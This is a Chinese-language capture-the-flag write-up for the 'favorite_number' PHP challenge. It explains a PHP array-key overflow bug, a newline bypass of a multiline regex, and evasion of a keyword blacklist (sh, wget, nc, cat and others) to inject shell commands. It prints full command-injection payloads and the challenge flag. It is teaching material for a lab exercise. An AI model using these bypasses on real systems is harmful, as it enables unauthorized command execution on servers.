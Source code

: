 # favorite_number

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=4f9d83db-6b29-4c4c-904e-df4090ff1cf9_2)

这题个人感觉不错，同时教了萌新三个知识点，且内容也很直接，就把考点摆在那里看你会不会。

场景进去是一个php脚本。

```php
<?php
//php5.5.9
$stuff = $_POST["stuff"];
$array = ['admin', 'user'];
if($stuff === $array && $stuff[0] != 'admin') {
    $num= $_POST["num"];
    if (preg_match("/^\d+$/im",$num)){
        if (!preg_match("/sh|wget|nc|python|php|perl|\?|flag|}|cat|echo|\*|\^|\]|\\\\|'|\"|\|/i",$num)){
            echo "my favorite num is:";
            system("echo ".$num);
        }else{
            echo 'Bonjour!';
        }
    }
} else {
    highlight_file(__FILE__);
}
```

虽然内容不多，但是隐藏的知识可不少。system函数肯定就是我们的目标了，只是上面有整整三层过滤。一层一层看吧。

```php
if($stuff === $array && $stuff[0] != 'admin')
```

我们都知道php的==符号有很多东西可以利用，可这会直接===强等于了，要求$stuff必须完全等于$array，接下来又要求$stuff的首元素不等于admin。这两者很明显就是矛盾的。题目刻意写出了php的版本，可能是这个版本下有能用的漏洞？这里就要求经验了，想我既不用php经验也不足的完全不知道往哪里找。最后看writeup在[官网](https://bugs.php.net/bug.php?id=69892)找到了描述。

```php
var_dump([0 => 0] === [0x100000000 => 0]); // bool(true)
```

意思就是说数组的0索引所对应的元素完全相等于数组0x100000000所对应的元素。影响范围可以在[这里](https://3v4l.org/Sjdf8)找到，发现5.5.9包括在内。

0x100000000的十进制形式就是4294967296。这时我们就可以构造绕过第一个if的payload了。

- stuff\[4294967296]=admin&stuff\[1]=user&num=1

![payload](../../images/payload.png)

- ### Tips
- > bp中可以在request的右上角的第三个按钮中的选项自动改变请求方法，比如这里就将get方法改成了要求的post方法。
- > 改变为post方法后传参是放在下面的，格式如图。

我不知道php内部是怎么判断两个数组完全相等的，但是我的猜测是这样的：一个一个判断两个数组中的键值对，如果全部返回true则完全相等。所以这里发生的情况是php判断传入的数组stuff\[4294967296]是否等于array\[0]，上面的bug可以看出结果相等，后面也相等，所以返回true；判断stuff\[0] != 'admin'也返回true，因为stuff没有0这个键，只有4294967296，故整个if语句成立。（可能不对小心被我带偏(･_･;）

```php
if (preg_match("/^\d+$/im",$num))
```

- ### 一些正则
- > ^ : 匹配搜索字符串开始的位置。如果标志中包括 m（多行搜索）字符，^ 还将匹配 \n 或 \r 后面的位置。如果将 ^ 用作括号表达式中的第一个字符，就会对字符集取反
- > \d : 数字字符匹配，等效于\[0-9]
- > $ : 匹配搜索字符串结束的位置。如果标志中包括 m（多行搜索）字符，$ 还将匹配 \n 或 \r 前面的位置。
- > \i : 大小写不敏感匹配。
- > \m : 默认情况下，PCRE 认为目标字符串是由单行字符组成的(然而实际上它可能会包含多行)， "行首"元字符 (^) 仅匹配字符串的开始位置， 而"行末"元字符 ($) 仅匹配字符串末尾， 或者最后的换行符(除非设置了 D 修饰符)。这个行为和 perl 相同。 当这个修饰符设置之后，“行首”和“行末”就会匹配目标字符串中任意换行符之前或之后，另外， 还分别匹配目标字符串的最开始和最末尾位置。这等同于 perl 的 /m 修饰符。如果目标字符串 中没有 "\n" 字符，或者模式中没有出现 ^ 或 $，设置这个修饰符不产生任何影响。

/^\d+\$/im 判断$num是否全部是数字。一般来说直接\n换行绕过就行了，但是由于使用了\m，我们需要考虑别的换行符。

- stuff\[4294967296]=admin&stuff\[1]=user&num=1%0als

%0a也是一种换行符，注意\m的描述：“如果目标字符串 中没有 "\n" 字符，或者模式中没有出现 ^ 或 $，设置这个修饰符不产生任何影响。”。所以^和$仍然会只匹配字符串开头%0a前面的内容，成功绕过第二个if。

```php
if (!preg_match("/sh|wget|nc|python|php|perl|\?|flag|}|cat|echo|\*|\^|\]|\\\\|'|\"|\|/i",$num))
```

乍一看有点离谱，常见的用法全部黑名单了。不过你永远想不到黑客的脑洞可以有多大。最简单的一种方式是使用``绕过匹配。inod

- stuff[4294967296]=admin&stuff[1]=user&num=1%0aca\``t /fl``ag

也可以跟官方writeup一样用inode读取flag。ls -i /可以查看根目录下所有文件的inode值。

- stuff[4294967296]=admin&stuff[1]=user&num=1%0atac \`find / -inum 3673632`

tac是cat的反向，会把文件的行序倒着输出。比如3行的文件“1     2      3”用cat输出是“1     2      3”，用tac就是“3      2       1”，只倒转行序不倒转每一行的内容。

或者绕个弯把flag文件名分步骤追加到另一个文件里。

- stuff\[4294967296]=admin&stuff\[1]=user&num=1%0aprintf /fla > /tmp/zer0b<br>stuff\[4294967296]=admin&stuff[1]=user&num=1%0aprintf g >> /tmp/zer0b<br>stuff\[4294967296]=admin&stuff\[1]=user&num=1%0atac \`tac /tmp/zer0b`

- ### Flag
- > cyberpeace{5baa9abc3af84774b3307ef0cbb098ab}